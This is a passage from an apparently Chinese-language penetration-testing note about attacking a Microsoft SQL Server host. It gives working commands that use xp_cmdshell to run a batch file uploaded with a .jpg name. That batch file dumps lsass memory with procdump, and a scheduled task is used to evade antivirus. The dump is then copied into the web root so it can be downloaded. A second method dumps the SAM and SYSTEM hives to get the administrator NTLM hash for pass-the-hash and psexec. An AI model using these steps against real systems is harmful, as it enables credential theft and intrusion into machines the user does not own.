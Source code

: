 >
> > 第二种是创建bat脚本执行（上传bat脚本，上传时可能因绕过需要而命名为jpg，所以这里需要先改回bat后缀）
> >
> > ```mssql
> > exec master..xp_cmdshell 'copy c:\wwwroot\upload\...\xxx.jpg c:\xxx.bat';
> > ```
> >
> > 其中上传的jpg（即bat文件）内容为
> >
> > ```shell
> > c:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
> > ```
> >
> > 执行bat脚本
> >
> > ```mssql
> > exec master..xp_cmdshell 'c:\xxx.bat';
> > ```
>
> > 第三种是计划任务执行
> >
> > 同上先创建bat，但是不直接执行bat（会被火绒拦截），
> >
> > ```mssql
> > exec master..xp_cmdshell 'at [time] c:\xxx.bat';
> > # 例如
> > exec master..xp_cmdshell 'at 15:01:01 c:\xxx.bat';
> > ```
> 
> 然后将上述产生的lsass.dmp文件复制到网站目录下，浏览器下载此文件。
> 
> ```mssql
> exec master..xp_cmdshell 'copy c:\lsass.dmp c:\wwwroot\upload\....\lsass.dmp';
> ```
>
>接下来利用PTH即可。

> 方案二：
>
> 直接在目标机器cmd下运行下面命令
>
> ```powershell
> reg save hklm\sam sam.hiv
> reg save hklm\system sys.hiv
> lsadump::sam /sam: sam.hiv /system:sys.hiv
> ```
>
> 就可以直接拿到本地账户 administrator的 NTLM hash了，然后用psexec.py等工具进行连接即可。

#### 3. sa账号的获取

可以通过查看config.asp、conn.asp等文件
